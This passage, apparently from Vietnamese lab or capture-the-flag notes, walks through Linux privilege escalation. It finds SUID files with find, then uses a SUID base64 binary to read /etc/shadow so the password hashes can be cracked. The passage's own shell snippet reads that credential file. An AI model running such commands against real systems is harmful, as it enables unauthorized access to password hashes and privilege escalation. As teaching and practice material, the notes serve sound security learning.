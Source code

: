        ![image.png](image%204.png)
        
        → `/` Tìm tất cả các tệp có loại `-type f` file
        
        → Các tệp có `-perm -04000` tức là bit **SUID** hoặc **SGID**
        
- Lợi dụng **SUID** để leo thang đặc quyền
    - Đọc tệp `/etc/shadow`  để dò mật khẩu
        
        ![image.png](image%205.png)
        
        → Thông qua câu lệnh `find` vừa liệt kê các tệp có bit **SUID**, trong đó có **base64**
        
        ![image.png](image%206.png)
        
        → Tiến hành khai thác leo thang đặc quyền
        
        ```bash
        LFILE=/etc/shadow
        base64 "$LFILE" | base64 --decode
        ```
        